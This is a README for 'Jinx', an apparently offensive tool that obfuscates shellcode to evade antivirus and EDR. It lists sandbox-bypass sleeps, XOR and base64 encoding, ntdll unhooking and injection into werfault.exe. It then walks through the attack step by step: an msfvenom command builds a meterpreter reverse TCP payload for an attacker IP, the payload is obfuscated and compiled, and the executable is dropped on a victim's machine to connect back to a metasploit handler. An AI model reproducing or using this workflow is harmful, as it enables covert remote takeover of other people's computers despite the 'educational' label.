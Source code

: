 # Jinx (For Educational Purposes Only)
## Shellcode obfuscation tool to avoid AV/EDR
[![Python 3.10.4](https://img.shields.io/badge/python-3.10.4-yellow.svg)](https://www.python.org/) [![](https://img.shields.io/badge/C%2B%2B-14-blue)](https://visualstudio.microsoft.com/vs/features/cplusplus/)
## Features
 
 - Custom Sleep Function - to bypass sandbox.
- Obfuscation - base64 encoding and xor encryption with randomly generated key.
- DLL Unhooking - full unhook of ntdll.dll.
- Process Injection - injecting the payload to werfault.exe.

## Installation and use
Jinx require [Python3](https://www.python.org/) and C++ compiler to run (we will be using [Visual Studio](https://visualstudio.microsoft.com/vs/features/cplusplus/))

In this demonstration we will generate a shellcode using msfvenom in our kali machine:
```bash
msfvenom -p windows/x64/meterpreter_reverse_tcp LHOST=<Attacker IP> LPORT=1337 -f raw -o shellcode
```

Next we will use the obfuscator.py tool to obfuscate the shellcode:

```
python3 obfuscator.py <Path to the shellcode>/shellcode
```
Our shellcode then be obfuscated and saved in - obfuscatedPayload.bin with the key - key.bin.

Open Visual Studio create a project and import the files as follow:

- Headers Files > right click > Add > Existing Item > (base64.h, ntdll.h, resource.h)
- Resource Files > right click > Add > Resource > Import > (key.bin, obfuscatedPayload.bin)
- Source Files > right click > Add > Existing Item > (base64.cpp, main.cpp, ntdll.cpp)

Build The project and drop the executable on the victim's machine.

On the attacker's machine use metasploit's multi/handler on port 1337
and on the victim's machine execute Jinx
